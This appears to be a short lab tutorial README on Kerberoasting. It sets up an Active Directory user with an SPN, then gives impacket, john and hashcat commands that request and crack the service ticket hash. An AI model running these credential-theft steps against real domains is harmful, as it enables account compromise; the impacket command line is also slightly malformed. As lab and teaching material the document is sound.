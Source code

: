 
# Kerberoasting

First create a user in the server by the script



## gen_user.ps1

```create a user
$splat = @{
    Name = 'ChewDavid'
    AccountPassword = (Read-Host -AsSecureString 'AccountPassword')
    Enabled = $true
}
New-ADUser @splat
```
And then add the SPN (service principal name) to the user by
```SPN
setspn -s http/ChewDavid.xyz.com ChewDavid
```
You can read more about the SPN in this article



[Microsoft SPN](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)#examples)

After the user is added to SPN go back to kali machine and 
run the tool
```Get SPN
impacket -GetUserSPNs xyz.com/alice:bubbles -dc-ip {ip} -request
```
Save the hash file and brute force it to get the account creds,
We can use hashcat as well as 
```john
john --wordlist=wordlist.txt kerb.hash
```
```hashcat
hashcat -m 13100 kerb.hash wordlist.txt
```
